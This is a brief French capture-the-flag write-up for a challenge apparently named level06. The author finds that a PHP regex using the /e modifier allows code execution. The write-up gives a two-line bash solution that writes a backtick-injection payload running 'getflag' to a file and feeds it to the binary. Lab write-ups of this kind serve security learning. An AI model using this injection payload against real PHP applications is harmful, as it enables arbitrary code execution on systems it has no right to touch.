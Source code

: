 J'execute le binaire level06 et je vois qu'il attend un fichier en parametre pour etre lu par file_get_contens

En analysant la regex et je vois une faille possible avec le modificateur /e qui permet d'executé du code.

```bash
echo '[x .${`getflag`}]' > /tmp/get
./level06 /tmp/get
```

